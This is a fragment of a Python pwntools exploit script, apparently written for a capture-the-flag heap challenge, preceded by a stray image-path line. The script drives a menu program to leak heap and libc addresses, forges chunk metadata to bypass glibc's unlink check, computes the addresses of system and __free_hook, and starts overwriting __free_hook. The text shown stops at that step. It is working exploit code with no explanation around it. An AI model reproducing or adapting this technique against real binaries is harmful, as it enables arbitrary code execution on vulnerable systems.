 ```
        target.send(content)

    def edit(index,content):
        target.recvuntil("oice:")
        target.sendline("2")
        target.recvuntil("Index:")
        target.sendline(str(index))
        target.recvuntil("tent:")
        target.send(content)


    def show(index):
        target.recvuntil("oice:")
        target.sendline("3")
        target.recvuntil("Index:")
        target.sendline(str(index))


    def free(index):
        target.recvuntil("oice:")
        target.sendline("4")
        target.recvuntil("Index:")
        target.sendline(str(index))



    def pwn():
        alloc(0,"a\n")
        alloc(1,"b\n")
        free(1)
        free(0)
        
        show(0)
        heap_leak = u64(target.recv(6).ljust(8,'\x00')) 
        success(hex(heap_leak))
        
        edit(0,p64(heap_leak-0x10)+p64(0)+p64(0)+p64(0x31))
        
        alloc(6,"aaaa\n")
        alloc(7,p64(0)+p64(0xa1)+"\n")
        alloc(2,"CCCCCCC\n")
        alloc(3,"DDDDDDD\n")

        alloc(4,p64(0)+p64(0x31)+p64(0x602080-0x18)+p64(0x602080-0x10)) #bypass unlink check
        alloc(5,p64(0x30)+p64(0x30)+'\n')
        


        free(1)
        show(1)
        
        leak2 = u64(target.recv(6).ljust(8,'\x00'))
        success(hex(leak2))
        libc_leak = leak2 - 0x3c4b78
        success("leaked libc: " + hex(libc_leak))
        

        system = libc_leak + 0x45390
        success("system: " + hex(system))
        free_hook = libc_leak + libC.symbols['__free_hook']
        success("free_hook: "+hex(free_hook))
        
        edit(4,p64(free_hook)+"\n")
```